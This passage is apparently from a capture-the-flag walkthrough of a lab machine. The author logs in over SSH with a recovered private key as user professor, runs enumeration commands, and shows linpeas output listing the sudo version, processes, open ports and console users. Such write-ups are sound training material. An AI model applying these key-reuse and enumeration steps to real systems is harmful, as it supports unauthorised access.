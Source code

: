Let’s save this to a file and attempt to use this to login to berlin via ssh:

```bash
chmod 600 berlin.key

ssh -i berlin.key berlin@10.10.10.131
```

Did not work. Maybe this is not berlin’s key. Let’s check all other users. Eventually, user professor logged us in:

```bash
ssh -i berlin.key professor@10.10.10.131
```

The shell we land on looks slightly different, let’s check what shell this is:

```bash
lacasadepapel [~]$ echo $SHELL
/bin/ash
```

Initial enumeration:

```bash
lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) groups=1002(professor)
lacasadepapel [~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for professor: 
```

We upload linpeas for ease of enumeration:

```bash

╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.23

4460 root      0:00 {supervisord} /usr/bin/python2 /usr/bin/supervisord --nodaemon[0m --pidfile /var/run/supervisord.pid --configuration /etc/supervisord.conf

3158 memcache  0:00 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid

╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      -
tcp        0      0 :::22                   :::*                    LISTEN      -

╔══════════╣ Users with console                                                                                                                          
berlin:x:1001:1001:berlin,,,:/home/berlin:/bin/ash                          
dali:x:1000:1000:dali,,,:/home/dali:/usr/bin/psysh                          
operator:x:11:0:operator:/root:/bin/sh                                      
```